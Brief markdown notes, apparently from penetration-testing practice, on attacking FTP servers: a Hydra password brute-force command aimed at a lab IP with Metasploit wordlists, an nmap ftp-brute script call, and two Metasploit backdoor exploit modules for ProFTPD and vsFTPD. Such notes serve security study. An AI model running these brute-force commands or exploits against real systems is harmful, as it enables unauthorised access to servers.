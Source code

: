 # Hydra

- `hydra -L <userlist> -P <passlist> 192.235.127.3 -t 4 ftp`
- wordlists:
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Nmap script
- echo "sysadmin" > users
- ftp-brute --script-args userdb=/root/users (`nmap --script ftp-brute --script-args userdb=/root/users -p 21 <ip>`)

# Metasploit modules

- exploit/unix/ftp/proftpd_133c_backdoor
- exploit/unix/ftp/vsftpd_234_backdoor
